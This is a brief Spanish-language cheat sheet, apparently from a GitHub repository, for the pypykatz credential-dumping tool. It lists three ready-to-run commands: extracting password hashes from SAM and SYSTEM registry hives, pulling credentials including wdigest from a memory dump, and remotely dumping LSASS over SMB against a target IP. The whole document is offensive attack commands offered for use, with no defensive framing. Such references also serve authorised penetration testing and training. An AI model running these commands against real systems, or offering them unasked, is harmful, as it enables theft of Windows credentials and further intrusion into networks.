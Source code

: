 # pypykatz Cheat Sheet

#### Extraer Hashes de SAM & SYSTEM
```
pypykatz registry --sam <FILE-SAM> <FILE-SYSTEM>
```

#### Extraer credenciales desde un archivo de memoria
```
pypykatz lsa minidump <FILE-.dmp> -g -p wdigest
```

#### Dumperar LSASS remotamente
```
pypykatz live smb lsassdump <IP-TARGET>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)